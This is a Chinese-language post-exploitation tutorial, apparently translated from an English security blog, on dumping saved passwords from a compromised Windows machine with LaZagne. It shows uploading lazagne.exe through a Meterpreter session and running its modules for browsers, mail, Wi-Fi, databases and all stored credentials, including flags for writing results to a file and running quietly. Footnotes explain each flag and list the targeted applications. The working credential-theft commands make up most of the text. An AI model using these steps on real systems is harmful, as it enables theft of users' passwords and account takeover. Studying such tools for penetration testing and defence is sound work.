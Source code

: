 ## 使用LaZagne对保存的密码进行后利用 [^1]

### **LaZagne里出名的脚本** [^2]

### **目标软件 ** [^3]

### **语法和参数**

![](http://ww1.sinaimg.cn/large/007DJod2gy1g0phekdbf3j30i508zdg3.jpg)

### **实现Meterpreter并上传LaZagne**

`upload lazagne.exe ./` [^4]

`lazagne.exe -h`

`lazagne.exe mails`

`lazagne.exe windows`

`lazagne.exe browsers`

`lazagne.exe databases`

`lazagne.exe wifi`

`lazagne.exe all` [^5]

`lazagne.exe all -oN` [^6]

`lazagne.exe all -vv `[^7]

`lazagne.exe all -quiet -oN` [^8]

[原文](https://www.hackingarticles.in/post-exploitation-on-saved-password-with-lazagne/)

[项目地址](https://github.com/AlessandroZ/LaZagne)

---

[^1]: 该 LaZagne 是一个开源应用程序。它检索系统上存储的密码
[^2]: KeeThief 、mimipy 、mimikatz 、pypykatz、 creddump、 chainbreaker、 pyaes、 pyDes、 秘密存储等等
[^3]: 火狐、谷歌浏览器、歌剧、Skype、PostgreSQL、雷鸟、KeePass、CoreFTP、FileZilla等等
[^4]: 现在我们在目标系统上有 LaZagne ，现在是枚举密码的时候了。在meterpreter shell上使用shell命令到达目标系统上的命令行。
[^5]: 该参数运行LaZagne中的所有模块。选择此参数后，脚本将在后台运行，该脚本将提取存储在目标系统上的所有登录凭据
[^6]: 这个参数应该用一些参数运行，否则会产生错误（我们在这里使用所有参数）。此参数是可选的运行。此参数不仅会在终端屏幕上打印输出，还会在运行的目录中创建一个文件，并将其与脚本的输出一起写入。
[^7]: 这个参数应该用一些参数运行，否则会产生错误（我们在这里使用所有参数）。此参数是可选的运行。默认情况下，在 LaZagne中，我们有两个级别的详细程度。它们是0级和1级。如果没有给出参数，则自动选择0级。但是当我们给出 -vv 参数时，它会增加提取的冗长度。输出也会改变。现在，LaZagne强行运行其库中的每个脚本，并尝试提取越来越多的凭据
[^8]: 这个参数应该用一些参数运行，否则会产生错误（我们在这里使用所有参数）。此参数是可选的运行。此参数不会在终端屏幕上打印任何输出。脚本确实在后台运行，但是没有提取密码的可见性，因此我们将参数与前面讨论过的oN参数一起使用，因为它在运行的目录中创建了一个文件并将其与脚本的输出一起写入。